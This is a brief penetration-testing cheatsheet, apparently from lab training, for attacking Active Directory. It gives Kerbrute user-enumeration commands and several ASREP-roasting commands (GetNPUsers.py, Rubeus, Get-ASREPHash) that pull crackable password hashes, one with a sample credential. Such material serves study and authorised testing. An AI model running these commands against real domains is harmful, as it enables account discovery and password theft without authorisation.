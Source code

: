 <hr>
<b>Enumeration checklist</b>
<hr>
- Password Policy readable           []/n
- Kebrute-able                       []/n

Account Takeover Checklist

- Vulnerable to ASREP-Roasting       []/n


<hr>
<b>Cheatsheet</b>
<hr>

<b>Enumeration</b>

<b>Kebrute-ing users</b>

Kerbrute uses pre-authentication to check if a given list of users is valid on the system.

<ol>
  <li>./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results</li>
</ol>

  
Account takeover techniques


<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

